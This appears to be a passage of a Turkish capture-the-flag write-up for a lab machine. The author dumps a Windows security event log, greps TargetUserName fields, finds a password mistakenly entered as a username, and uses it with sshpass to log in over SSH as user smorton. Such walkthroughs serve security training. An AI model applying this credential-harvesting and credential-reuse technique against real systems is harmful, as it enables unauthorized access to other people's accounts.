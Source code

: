 Bir zip dosyası ve txt dosyası var.

Text içerisinde bir mesaj var ve log dosyasını analiz etmemizi istiyor. Bunun için zip dosyasını unzip ile açacağım.

```bash
root@acivik:~/ctfs/Investigation-10.129.11.139# unzip evtx-logs.zip 
Archive:  evtx-logs.zip
  inflating: security.evtx
```

`evtx_dump.py` ile evtx dosyasını bir txt dosyasına kaydettim.

Log dosyası çok büyük, Smorton ile ilgili bir şey bulabilmeyi umut ediyorum.

# <span style="color:#AA0E1C"><b># Privilege Escalation: www-data → smorton</b></span>

Bir süre inceledim ve yaptığım filtreleme sonucu ilginç bir şey elde ettim.

```bash
root@acivik:~/ctfs/Investigation-10.129.11.139# cat outlog.txt | grep "TargetUserName" | sort -u | head
<Data Name="TargetUserName">aanderson</Data>
<Data Name="TargetUserName">AAnderson</Data>
<Data Name="TargetUserName">Administrators</Data>
<Data Name="TargetUserName">-</Data>
<Data Name="TargetUserName">Def@ultf0r3nz!csPa$$</Data> # <-- Bu parola olabilir.
<Data Name="TargetUserName">DWM-1</Data>
<Data Name="TargetUserName">DWM-2</Data>
<Data Name="TargetUserName">DWM-3</Data>
<Data Name="TargetUserName">DWM-4</Data>
<Data Name="TargetUserName">DWM-5</Data>
root@acivik:~/ctfs/Investigation-10.129.11.139#
```

Ssh ile oturum açmayı deneyeceğim.

```bash
root@acivik:~/ctfs/Investigation-10.129.11.139# sshpass -p 'Def@ultf0r3nz!csPa$$' ssh smorton@10.129.11.139
Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 5.4.0-137-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue 24 Jan 2023 01:08:02 PM UTC

  System load:  0.0               Processes:             231
  Usage of /:   60.6% of 3.97GB   Users logged in:       0
  Memory usage: 15%               IPv4 address for eth0: 10.129.11.139
  Swap usage:   0%

0 updates can be applied immediately.

The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Tue Jan 24 13:07:54 2023 from 10.10.14.106
smorton@investigation:~$
```
